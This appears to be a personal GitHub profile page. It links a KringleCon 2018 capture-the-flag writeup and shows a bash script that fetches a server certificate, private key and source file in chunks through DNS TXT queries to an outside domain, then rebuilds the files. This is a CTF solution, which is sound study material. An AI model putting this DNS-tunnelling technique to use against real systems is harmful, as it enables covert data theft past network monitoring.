 ## KringleCon

Looking for my KringleCon writeup? [Et voila!](files/CraHan%20-%20KringleCon%202018%20writeup.pdf)

```bash
#!/bin/bash

files=('server.crt' 'server.key' 'source.html')

for file in "${files[@]}" 
do
    # Convert filename to hex
    fnhex=$(xxd -pu <<< $file)

    # Strip the linefeed
    fnhex=${fnhex::-2}

    # DNS query requesting number of chunks
    chunks=$(host -t txt ${fnhex}.erohetfanu.com erohetfanu.com | \ 
    sed -n 's/.*\"\([0-9]*\)\".*/\1/p')

    # Check if value was returned
    if [ $chunks > 0 ]
    then
        echo "${file} found (${chunks} chunks)."

        if [ "$1" != "recon" ]
        then
            # Grab the file and save it to ${file}.hex
            echo -n "Grabbing chunk: "
            chunks=$(expr $chunks - 1)

            for chunk in $(eval echo "{0..$chunks}")
            do
                remainder=$(( chunk % 100 ))
                [ "$remainder" -eq 0 ] && echo -n "${chunk}..."

                host -t txt ${chunk}.${fnhex}.erohetfanu.com erohetfanu.com | \
                sed -n 's/.*\"\(.*\)\".*/\1/p' >> "${file}.hex"
            done

            printf "done.\n\n"
            
            # remove \n
            cat ${file}.hex | tr -d '\n' > ${file}-clean.hex

            # convert back to binary
            xxd -r -p ${file}-clean.hex ${file}
        fi
    else
        echo "${file} not found."
    fi
done
```

## Random

> Folks that throw dirt on you aren't always trying to hurt you, and folks that pull you out of a jam aren't always trying to help you. But the main point is when you're up to your nose in shit, keep your mouth shut.
> 
> -- <cite>Jack Beauregard</cite>

## Elsewhere

- [Twitter](https://www.twitter.com/crahan)
- [Instagram](https://instagram.com/crahan)
- [Github](https://github.com/crahan)
- [Pinboard](https://pinboard.in/u:crahan)

